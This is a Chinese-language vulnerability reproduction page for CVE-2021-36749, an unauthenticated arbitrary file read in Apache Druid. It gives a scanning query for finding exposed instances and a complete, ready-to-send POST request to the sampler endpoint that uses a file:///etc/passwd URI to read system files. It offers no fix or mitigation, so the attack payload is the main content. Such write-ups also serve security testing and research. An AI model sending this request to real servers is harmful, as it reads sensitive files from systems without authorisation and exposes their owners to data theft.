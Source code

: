 # Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

```
Apache Druid
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

主页面

![](./images/202205251552893.png)

复现过程

![](./images/202205251552182.png)

![](./images/202205251552177.png)

请求包为

```
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![](./images/202205251552931.png)